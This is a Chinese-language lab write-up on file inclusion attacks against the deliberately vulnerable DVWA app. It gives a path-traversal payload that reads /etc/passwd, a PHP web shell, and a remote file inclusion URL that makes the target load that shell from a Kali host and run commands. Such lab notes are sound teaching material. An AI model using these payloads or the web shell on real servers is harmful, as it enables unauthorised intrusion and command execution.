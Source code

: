 ## 一、文件包含漏洞(File Inclusion)
### 1.1 攻击逻辑
- 利用服务器“偷懒”，有些网页为了方便，直接根据URL里的参数去读取服务器上某个文件并显示出来，可以读取敏感文件
### 1.2 文件包含分类
- 本地文件包含(LFI)：读取服务器本地的敏感文件
- 远程文件包含(RFL)：让服务器加载并执行一个放在别处(如Kali攻击机上)的恶意脚本。一旦成功，效果和上传Web Shell一样，直接控制服务器
## 二、本地文件包含(LFI)信息窃取
- DVWA中切换到File Inclusion菜单
- 构造LFI Payload：
   - 目标是读取`/etc/passwd`文件，这里存放Linux系统用户列表的文件
   - 需要用`../`字符串来跳出当前目录，一层层返回到根目录
   - 最终Payload：`../../../../../../../../etc/passwd`
   - 最终URL：`http://192.168.174.130/dvwa/vulnerabilities/fi/?page=../../../../../../../../etc/passwd`
   - 结果：在网页看到`/etc/passwd`文件的全部内容，此文件是服务器的“用户登记表”。
   - 看第一行`root:x:0:0:root:/root:/bin/bash`，用户名是`root`；密码占位符是`x`：真密码被加密后存在更安全的文件里；用户ID(UID)是`0`:0是超级管理员的专属号码；用户组ID(GID)是`0`；用户描述是`root`；家目录是`/root`，root用户登录后，默认待在/root这个文件夹里；登陆后用的程序`/bin/bash`，root用户登录后，系统会启动/bin/bash这个程序让他输入命令
<img width="1367" height="363" alt="image" src="https://github.com/user-attachments/assets/f2963ff8-7268-4e5f-978b-6b96b9dc6825" />

## 三、远程文件包含(RFI)获取控制权
-  准备武器(Web Shell)：`shell.php`
```
<?php
    if (isset($_REQUEST['cmd'])) {
        system($_REQUEST['cmd']);
    }
?>
```
- 架设"军火库"(Web服务器)：
   - 为了让DVWA服务器能访问到`shell.php`，选哟在Kali上启动一个临时的Web服务器
   - 在Kali中，打开新终端，进入到`shell.php`所在的目录(桌面)，执行`python3 -m http.server 8000`，启动一个监听在`8000`端口的Web服务器
- 构造RFI Payload：
   - 让`page`参数去加载一个远程地址，即刚刚架设号的Web服务器上的`shell.php`
   - 最终Payload：`http://192.168.174.129:8000/shell.php`
- 最终攻击:
   - 浏览器地址栏`page=`后门的内容，替换成RFI Payload，最终URL：`http://192.168.174.130/dvwa/vulnerabilities/fi/?page=http://192.168.174.129:8000/shell.php`
   - 观察Pyhton服务器终端，会看到访问日志，证明DVWA服务器下载了`shell.php`
- 验证控制权：
   - 在URL后加上`&cmd=`参数来执行命令
   - `http://192.168.174.130/dvwa/vulnerabilities/fi/?page=http://192.168.174.129:8000/shell.php&cmd=whoami`，网页显示`www-data`，证明通过RFI漏洞，成功在服务器上执行了任意命令。
## 四、总结
